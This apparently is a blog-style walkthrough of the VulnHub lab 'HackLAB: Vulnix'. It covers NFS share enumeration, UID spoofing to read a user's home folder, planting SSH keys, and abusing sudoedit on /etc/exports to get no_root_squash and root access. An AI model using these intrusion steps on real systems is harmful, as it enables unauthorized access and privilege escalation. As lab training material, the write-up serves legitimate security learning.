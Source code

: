 ```yaml
---
layout: default
title : muzec -  HackLAB: Vulnix Writeup
---
```


Here we have a vulnerable Linux host with configuration weaknesses rather than purposely vulnerable software versions (well at the time of release anyway!)

The host is based upon Ubuntu Server 12.04 and is fully patched as of early September 2012. To Grab a Copy Download Here [HackLAB: Vulnix](https://www.vulnhub.com/entry/hacklab-vulnix,48/)

We always Kick Off with Nmap Scan.......

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Thu Jul 15 10:56:44 2021 as: nmap -sC -sV -oA nmap 172.16.139.216
Nmap scan report for 172.16.139.216
Host is up (0.0015s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: 2021-07-15T12:57:05+00:00; +3h00m01s from scanner time.
79/tcp   open  finger     Linux fingerd
|_finger: No one logged on.\x0D
110/tcp  open  pop3       Dovecot pop3d
|_pop3-capabilities: SASL UIDL PIPELINING STLS CAPA RESP-CODES TOP
|_ssl-date: 2021-07-15T12:57:05+00:00; +3h00m01s from scanner time.
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37916/udp6  mountd
|   100005  1,2,3      38356/tcp   mountd
|   100005  1,2,3      41805/tcp6  mountd
|   100005  1,2,3      57305/udp   mountd
|   100021  1,3,4      37121/udp   nlockmgr
|   100021  1,3,4      40483/udp6  nlockmgr
|   100021  1,3,4      44054/tcp6  nlockmgr
|   100021  1,3,4      60768/tcp   nlockmgr
|   100024  1          39121/udp6  status
|   100024  1          39196/tcp6  status
|   100024  1          48005/udp   status
|   100024  1          48763/tcp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
143/tcp  open  imap       Dovecot imapd
|_imap-capabilities: more have LOGINDISABLEDA0001 post-login LITERAL+ capabilities STARTTLS LOGIN-REFERRALS listed ID IDLE IMAP4rev1 Pre-login OK ENABLE SASL-IR
|_ssl-date: 2021-07-15T12:57:05+00:00; +3h00m01s from scanner time.
512/tcp  open  exec       netkit-rsh rexecd
513/tcp  open  login
514/tcp  open  tcpwrapped
993/tcp  open  ssl/imaps?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2021-07-15T12:57:04+00:00; +3h00m00s from scanner time.
995/tcp  open  ssl/pop3s?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2021-07-15T12:57:04+00:00; +3h00m00s from scanner time.
2049/tcp open  nfs_acl    2-3 (RPC #100227)
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h00m00s, deviation: 0s, median: 3h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 15 10:57:04 2021 -- 1 IP address (1 host up) scanned in 20.52 seconds
```

So many ports damn and between the box was rated hard i don't why maybe it because of the many ports seriouly to much talking let start our enumeration. So we are having 11 ports on the target the only port that quickly caught my eyes is `2049` which is the NFS port.

NFS port `2049` is a client/server system that allows users to access files across a network and treat them as if they resided in a local file directory. Now exploit it it should be easy.

### NFS SHARE ON PORT 2049 EXPLOIT


```
showmount -e 172.16.139.216 
```

![image](https://user-images.githubusercontent.com/69868171/125794093-6b6f5ca7-0c81-4394-96a5-18dbace73938.png)


Now we know we have a share to mount `/home/vulnix *` now let create a folder in our `tmp` directory.

```
mkdir /tmp/vulnix 
```

![image](https://user-images.githubusercontent.com/69868171/125807410-aea75bb6-eb3d-4825-b8f6-d9227f577154.png)

Now let mount it into the folder we created in `tmp` .

```
mount -v -t  nfs  -o vers=3,proto=tcp,nolock 172.16.139.216:/home/vulnix /tmp/vulnix
```

Note:- You can only mount if you are root.

```
df -k
```
![image](https://user-images.githubusercontent.com/69868171/125807775-a9b396be-8d21-4f00-ab13-c8d2c1190596.png)


Mounted on the share folder but when i try to access i got Permission denied even when using root but since we know the username is `vulnix` i try creating a fake user on my attacking machine.

![image](https://user-images.githubusercontent.com/69868171/125808128-e3cc7bb9-777e-4bd1-8648-936608ad0238.png)


###  FAKE USER WITH THE SAME UID

![image](https://user-images.githubusercontent.com/69868171/125808508-11dc3ce6-b7d8-4a72-9cab-5cf937d2984c.png)

We know user `vulnix` UID is `2008` so it should be easy let hit it.

```
useradd vulnix
usermod -u 2008 vulnix
su vulnix
```

![image](https://user-images.githubusercontent.com/69868171/125809385-f35f7db2-332f-4c5b-be1d-e37d23e26456.png)

Now we have access but seriouly i got nothing not even a SSH private key hahahhahaha why but it cool since we are user `vulnix` let try creating an SSH folder and adding our `authorized_keys` which is the `id_rsa public key` .

![image](https://user-images.githubusercontent.com/69868171/125812270-bab79c5b-35c1-4acd-aac4-5766bdb41c33.png)


Now back to our attacking machine to generate the key.

```
ssh-keygen -t rsa
```

![image](https://user-images.githubusercontent.com/69868171/125812951-04206853-a4a6-4f64-b512-bff66f50156e.png)

If you follow the process on how to generate the SSH private key and public key just change directory to `~/.ssh` .

![image](https://user-images.githubusercontent.com/69868171/125816086-1422c62e-e210-40b9-acca-8c40ba5b9176.png)

Now back to our target.

![image](https://user-images.githubusercontent.com/69868171/125818271-54467ae7-fbf5-4c42-b4f2-b655376da78f.png)

Now back to our Attacking machine let use the private key to SSH with user `vulnix` .

```
chmod 600 id_rsa
ssh -i id_rsa vulnix@172.16.139.216
```

![image](https://user-images.githubusercontent.com/69868171/125819893-eb93e722-cc33-421d-bae7-6d2b10af0c40.png)

We are in checking `sudo -l` .

![image](https://user-images.githubusercontent.com/69868171/125822189-63930078-fe13-4c28-94cb-1185ec612e27.png)

Seems we can use `sudoedit` to modify `/etc/exports` .

```
sudoedit /etc/exports
```

![image](https://user-images.githubusercontent.com/69868171/125823158-1578bcd6-5ae6-4c37-a48d-466847d93054.png)

Interesting since we can read and write to `/home/vulnix` i think it possible to edit it to the root user folder to add our `authorized_keys`  so we can SSH using root let give it a try.

![image](https://user-images.githubusercontent.com/69868171/125828933-0e3d23d2-5b78-41e7-80e6-b428851ceba6.png)


Now we change `/home/vulnix   *(rw,root_squash)`  to `/root   *(rw,no_root_squash)` now let go ahead to confirm it.

![image](https://user-images.githubusercontent.com/69868171/125828441-4d2d62a5-aff5-467a-9848-8e6749bb688f.png)

Boom now let mount the NFS share.

![image](https://user-images.githubusercontent.com/69868171/125828511-f1e915a1-70d5-447e-b767-4243bb75d093.png)

```
mount -v -t  nfs  -o vers=3,proto=tcp,nolock 172.16.139.216:/root /tmp/root
```

Mounted now let change directory to `/tmp/root` .

![image](https://user-images.githubusercontent.com/69868171/125829044-2661d457-6bd3-474c-85cf-c9ac3f0ee92d.png)

We have the root flag but nah i wnt to get access to SSH with root now let add our `authorized_keys` again.

![image](https://user-images.githubusercontent.com/69868171/125829328-496909c7-aa50-4057-8f09-bb376a7aeec2.png)

Now let try to SSH using root with the private key.

![image](https://user-images.githubusercontent.com/69868171/125829477-d5b261ad-4005-49b0-8491-57545fa66d0d.png)

We are done and dusted.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

